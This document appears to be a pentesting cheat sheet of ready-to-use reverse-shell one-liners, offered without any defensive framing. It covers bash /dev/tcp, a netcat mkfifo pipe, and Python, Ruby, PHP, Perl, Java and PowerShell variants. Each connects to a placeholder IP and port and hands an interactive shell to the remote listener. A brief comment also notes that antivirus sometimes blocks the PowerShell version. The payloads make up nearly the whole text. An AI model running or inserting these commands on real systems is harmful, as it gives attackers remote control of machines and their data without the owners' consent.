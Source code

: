 title: Reverse Shells

### bash

```
bash -i >& /dev/tcp/{IP-ADDRESS}/{PORT} 0>&1
```

### netcat / nc

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc {IP-ADDRESS} {PORT} >/tmp/f 
```

### Python
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{IP-ADDRESS}",{PORT}));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### Ruby

```ruby
ruby -rsocket -e'f=TCPSocket.open("{IP-ADDRESS}",{PORT}).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)' 
```

### PHP

```php
php -r '$sock=fsockopen("{IP-ADDRESS}",{PORT});exec("/bin/sh -i <&3 >&3 2>&3");'
```

### Perl

```perl
perl -e 'use Socket;$i="{IP-ADDRESS}";$p={PORT};socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};' 
```

### Java

```
r = Runtime.getRuntime() p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/{IP-ADDRESS}/{PORT};cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[]) p.waitFor() 
```

### Powershell
This one sometimes get blocked by AV or Powershell security configuration.

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('{IP-ADDRESS}',{PORT});$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'"
```